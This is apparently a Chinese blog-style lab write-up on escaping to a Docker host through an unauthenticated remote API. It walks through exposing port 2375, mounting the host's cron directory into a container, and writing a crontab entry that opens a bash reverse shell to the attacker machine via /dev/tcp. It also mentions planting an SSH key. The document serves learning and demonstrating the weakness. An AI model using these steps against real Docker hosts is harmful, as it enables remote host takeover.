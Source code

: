 # Docker逃逸系列1:Docker remote api未授权访问


> docker逃逸第一种方式——remote api未授权访问
>
> 环境：
>
> 宿主机操作系统：Ubuntu 20.04 LTS 192.168.170.129
>
> 执行攻击的主机：Kali，5.9.0-kali1-amd64 192.168.170.128
>
> docker版本：Docker version 20.10.2, build 2291f61

## 步骤1、开启docker remote api

docker remote api应该是一个提供图形化界面来简化操作的功能，通过将宿主机的docker服务通过socket的方式暴露给外部连接，使得其他主机也可以访问docker服务。
### 修改配置，重启服务

```bash
lzy@zyUb:~$ sudo nano /lib/systemd/system/docker.service
[sudo] password for lzy: 
lzy@zyUb:~$ sudo systemctl daemon-reload
lzy@zyUb:~$ sudo service docker restart
```

执行上述命令，在`docker.service`文件中添加以下红线所标出的内容(`-H tcp://0.0.0.0:2375`)

![修改文件](修改文件.png "修改文件")

### 查看效果

在另一台虚拟机中查看docker宿主机的2375端口，可以看到相关信息。

![remote-api](remote-api.png "remote-api")

![外部访问](外部访问.png "外部访问")

## 步骤2、漏洞测试

### 创建容器

查看docker宿主机上已有的镜像

```bash
┌──(lzy㉿kaliForZy)-[~]
└─$ docker -H tcp://192.168.170.129:2375 images
REPOSITORY    TAG       IMAGE ID       CREATED         SIZE
alpine        latest    e50c909a8df2   9 days ago      5.61MB
ubuntu        18.04     c090eaba6b94   2 weeks ago     63.3MB
hello-world   latest    bf756fb1ae65   13 months ago   13.3kB
```

然后创建容器。因为最后反弹shell的实现方式是使用crontab计划任务，所以需要将crontab用到的文件所在路径，也就是宿主机的`var/spool/cron`目录挂载到容器中。

```bash
┌──(lzy㉿kaliForZy)-[~]
└─$ docker -H tcp://192.168.170.129:2375 run -it -v /var/spool/cron/:/get3cad/ c090 /bin/bash
```

ubuntu的crontab相关文件的路径为`var/spool/cron/crontabs/root`，但是我自己装的虚拟机在该路径下并不存在`root`文件。所以在进入到容器中后，要切换到相应路径（也可以在创建容器的时候就使用`chroot`参数），然后创建文件。

```bash
root@22b103440b66:/get3cad/crontabs# touch root
```

需要注意，创建的`root`文件默认是644权限，在crontab执行的时候会被认为是不安全模式。所以需要修改权限为`600`。

![644](644.png "644")

![secure](secure.png "secure")

```bash
root@22b103440b66:/get3cad/crontabs# chmod 600 root
```

最后往`root`文件中写入反弹shell的计划任务。同时，因为sh与bash环境的不同，需要将命令用`bash -c`包含起来。

```bash
root@22b103440b66:/get3cad/crontabs# echo '* * * * * bash -c "bash -i  >&/dev/tcp/192.168.170.128/7777 0>&1"' >> /get3cad/crontabs/root
```

在攻击者主机中使用nc监听，连接到反弹的shell

![shell](shell.png "shell")



除反弹shell之外，在宿主机开启了ssh服务的情况下，还可以通过修改配置文件，放入攻击者公钥的情况下，实现**ssh远程登录**，也可以达到和上述crontab计划任务反弹shell相同的效果。

## 其他收获

- 又发现了几个🐂人的博客
- Linux中执行`sudo -i`切换到sudo模式，就能够cd到权限不够的路径，这个算是回忆吧
- 发现一个很有意思的docker镜像：[busybox](https://hub.docker.com/_/busybox)，小而精悍，瑞士军刀
- 资源网站：[shodan](https://www.shodan.io/)，搜索互联网设备，所以不要轻易将自己的端口暴露在公网。看到这个网站是因为有人没有自己搭环境实现，所以用这个网站搜索现有的开放了远程api的docker环境。从这些博客的尝试结果来看，似乎很多有这一漏洞的docker环境，都被别人植入了挖矿程序。



前前后后花了4 5个小时，踩坑也是踩了蛮多的。网上的相关博客也有很多，除去内容重复的一些后，我觉得比较有参考价值的都放在下面了。

## 参考链接：

- [Docker remote api漏洞公告](https://help.aliyun.com/document_detail/37517.html)
- [开启docker的remote api](https://blog.csdn.net/qq_20453349/article/details/108260472)

- [踩坑：解决ubuntu-crontab反弹shell失败的问题](https://m3lon.github.io/2019/03/18/%E8%A7%A3%E5%86%B3ubuntu-crontab%E5%8F%8D%E5%BC%B9shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
- 他人的实现：
  - [🐂人博客之一](https://zgao.top/docker-remote-api%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0/)
  - [https://www.ouyangxiaoze.com/2020/08/617.html](https://www.ouyangxiaoze.com/2020/08/617.html)
